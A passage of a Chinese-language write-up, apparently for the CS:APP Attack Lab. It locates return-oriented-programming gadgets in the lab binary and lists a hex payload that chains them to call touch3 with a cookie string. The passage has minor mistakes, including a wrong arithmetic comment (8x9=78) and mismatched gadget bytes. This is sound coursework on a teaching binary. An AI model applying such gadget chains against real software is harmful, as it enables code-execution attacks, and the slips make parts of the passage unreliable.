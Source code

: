 发现 movq 语句能找到的 gadget 只有 `48 89 e0/c7`。也就是 `mov %rax, %rdi` 和 `mov %rsp, %rax`。

所以第一个 gadget 可以拆分成两个

~~~assembly
movq %rsp, %rax # 48 89 e0 c3 0x401a06 addval_273
ret

movq %rax, %rdi # 48 89 c7 c3 0x4019a2 addval_190
ret
~~~

然后我们继续找 popq 语句的 gadget。

~~~assembly
popq %rax # 58 90 c3 0x4019ab addval_219
nop
ret
~~~

然后我们需要把 %rax 里的东西 mov 到 %rsi。

~~~assembly
movl %eax, %edx # 0x4019dd
movl %edx, %ecx # 0x401a34
movl %ecx, %esi # 0x401a13
~~~

然后我们需要把 %rax 移到 %rsi

~~~assembly
movq %rax, %rdi # 48 89 e0 c3 0x4019a2 addval_190
ret
~~~

这样 gadget 就找齐了，真是意料之外的轻松。

> 00 00 00 00 00 00 00 00
>
> 00 00 00 00 00 00 00 00
>
> 00 00 00 00 00 00 00 00
>
> 00 00 00 00 00 00 00 00
>
> 00 00 00 00 00 00 00 00
>
> 06 1a 40 00 00 00 00 00 # movq %rsp, %rax
>
> a2 19 40 00 00 00 00 00 # movq %rax, %rdi
>
> ab 19 40 00 00 00 00 00 # popq %rax
>
> 48 00 00 00 00 00 00 00 # 指令偏移量 8x9=78=0x48
>
> dd 19 40 00 00 00 00 00 # movl %eax, %edx
>
> 34 1a 40 00 00 00 00 00 # movl %edx, %ecx
>
> 13 1a 40 00 00 00 00 00 # movl %ecx, %esi
>
> d6 19 40 00 00 00 00 00 # leaq (%rdi,%rsi), %rax
>
> a2 19 40 00 00 00 00 00 # movq %rax, %rdi
>
> fa 18 40 00 00 00 00 00 # touch3地址
>
> 35 39 62 39 39 37 66 61 # cookie字符串
>
> 00 00 00 00 00 00 00 00